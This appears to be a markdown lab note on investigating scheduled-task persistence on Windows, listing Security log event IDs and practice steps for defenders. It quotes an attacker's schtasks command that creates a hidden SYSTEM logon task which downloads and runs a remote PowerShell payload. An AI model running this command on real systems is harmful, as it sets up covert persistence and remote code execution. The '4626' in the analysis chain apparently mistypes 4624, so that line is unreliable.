





### 1.Task Scheduler
### 2. Scenario: Suspicious Scheduled Task Persistence Investigation
- The attacker had already gained access to the system through PowerShell Remoting and attempted to maintain persistence by creating a scheduled task disguised as a legitimate Windows update process.

- The following command was executed:
	**schtasks /create /tn "WindowsUpdateCheck" /sc ONLOGON /tr "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -Command IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.50/payload.ps1')" /ru SYSTEM**

- **Attacker Objective**:
	Maintain persistence after system reboot or user logoff
	Execute malicious PowerShell automatically
	Hide execution from the user
	Run with elevated privileges (SYSTEM)
	Download and execute a remote payload
### 3.Important event IDs
- Security.evtx
	- 4624: An account was successfully logged on.
	- 4688: Process Creation
	- 4698: Scheduled Task Created
	- 4104: Script Block Logging
### 4.Network diagram 

### 5.The process of analyzing:
- **4626 -> 4688 -> 4698 -> 4104**
### 6. Practice
- Enter session and Configure task remotely

- Switch on victim's machine:
	- analyze 4624 & 4698 event

